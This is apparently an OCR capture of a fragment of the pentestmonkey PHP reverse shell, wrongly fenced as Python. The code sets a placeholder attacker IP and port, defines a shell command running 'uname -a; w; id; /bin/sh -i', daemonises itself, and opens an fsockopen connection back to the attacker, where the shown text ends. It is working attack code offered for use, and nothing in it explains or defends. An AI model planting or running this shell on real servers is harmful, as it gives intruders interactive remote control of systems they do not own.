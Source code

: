 ```python
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.128';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```